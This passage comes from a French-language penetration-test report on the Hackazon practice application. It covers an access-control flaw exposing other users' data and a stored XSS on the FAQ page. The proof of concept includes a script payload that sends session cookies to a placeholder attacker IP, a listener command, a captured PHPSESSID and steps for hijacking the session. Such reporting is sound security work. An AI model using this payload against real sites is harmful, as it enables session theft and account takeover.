 ```bash
Checking https://hackazon.trackflaw.com/api/user/{user_id}

```

On peut ici voir les messages des autres utilisateurs sur la page contact on peut voir que de nombreux utilisateurs on tenté d'exploiter une faille XSS et aussi les adresse de commande des autres users .
Conséquences :

- Usurpation d’identité : un utilisateur malveillant peut se faire passer pour un autre.
- Perturbation massive : tous les comptes peuvent être désactivés ("active": "0"), rendant le service inutilisable.
- Exfiltration ou destruction de données personnelles sensibles.


**Recommandations**
Mettre en œuvre un contrôle d'accès strict côté serveur pour vérifier que l'utilisateur authentifié est autorisé à accéder ou modifier uniquement ses propres ressources, en validant systématiquement son identité via des vérifications d’ownership (user ID/token).

###### 5.2 Compromision du compte Jdoe



| Intitulé                                                                 | Exploitation | Impact   | Criticité |
|--------------------------------------------------------------------------|--------------|----------|-----------|
| XSS stockée sur la page FAQ permettant le vol du cookie PHPSESSID et l’usurpation de session | Élevé        | Critique | CRITIQUE  |


Une vulnérabilité de type **XSS (Cross-Site Scripting)** a été identifiée sur la page FAQ.  
Celle-ci permet à un attaquant d’injecter et d’exécuter du code JavaScript malveillant dans le navigateur d’un utilisateur authentifié.  
En exploitant cette faille, il est possible de **voler la session d’un utilisateur** (ici `jdoe`) et de **prendre le contrôle de son compte** sans connaître ses identifiants.

---

Preuve de concept (PoC)

1. **Payload XSS injecté sur la page FAQ :**

```html
<script>new Image().src="http://<IP_PUBLIQUE_ATTAQUANT>:8080/?cookie="+document.cookie</script>
```
2. **Sur la machine de l’attaquant**, un simple serveur HTTP permet de récupérer le cookie :
```bash
    python3 -m http.server 8080
```
3.Résultat dans les logs du serveur :
```bash
GET /?cookie=PHPSESSID=c49c778030a3efc0bb33e134068b2544
```

Usurpation de session :

- L’attaquant copie le cookie PHPSESSID.
- Il l’ajoute dans l’onglet Application > Cookies de son navigateur.
- En rechargeant la page, il est connecté en tant que John Doe.
